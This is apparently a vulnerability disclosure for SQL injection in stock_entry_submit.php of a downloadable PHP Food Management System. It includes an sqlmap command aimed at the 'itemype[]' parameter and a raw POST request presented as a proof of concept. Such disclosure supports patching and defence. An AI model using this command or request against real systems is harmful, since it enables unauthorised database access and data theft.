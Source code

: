 ###  

### Food Management System SQL Injection Vulnerability

Vulnerability Description: SQL Injection Vulnerability in Foreground of Food Management System 
 Manufacturer Information: [www.kashipara.com/](http://www.kashipara.com/) 
 Affected Version: 1.0 
 Environment: 
 https://www.kashipara.com/project/download/project2/user/2023/202312/kashipara.com_chopstic1-zip.zip 

![img](https://cdn-images-1.medium.com/max/900/1*OVHZZxD7vpNXrFgeB8IeJw.png)

Code Analysis: 
 Code in D:\phpstudy_pro\WWW\chopstic1\stock_entry_submit.php

![img](https://cdn-images-1.medium.com/max/900/1*uMUpKstQxTgYriy-wuii-g.png)













 When SQL statements are executed, variables entered by the user are not filtered and validated sufficiently, resulting in malicious SQL statements that can be injected by maliciously constructed inputs.

SQLmap：



![img](https://cdn-images-1.medium.com/max/900/1*0txxXyyntrfwmDcQMpybQg.png)

















SQLMAP：
python sqlmap.py -r 1.txt — level 5 — risk 3 -p itemype[]
POC：

```shell
POST /chopstic1/stock_entry_submit.php HTTP/1.1
Host: localhost
Content-Length: 88
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/chopstic1/stockentry.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_NAME_COOKIE=admin; SID_1=aa141d36; mailpoet_page_view=%7B%22timestamp%22%3A1694409700%7D; mailpoet_subscriber=%7B%22subscriber_id%22%3A2%7D; _ga=GA1.1.324136046.1702458922; Hm_lvt_6a3c7d9bb52a48ffadde32007d2a259e=1702459185; _pk_id.1.1fff=4343a030b8a53617.1702459185.; PHPSESSID=l7gqshcet6f2d84e2r3ae4a5tj
Connection: close

chk_in_date=05-01-2024&itemype%5B%5D=5&item_name%5B%5D=39&itemnumber%5B%5D=1&submit=Save
```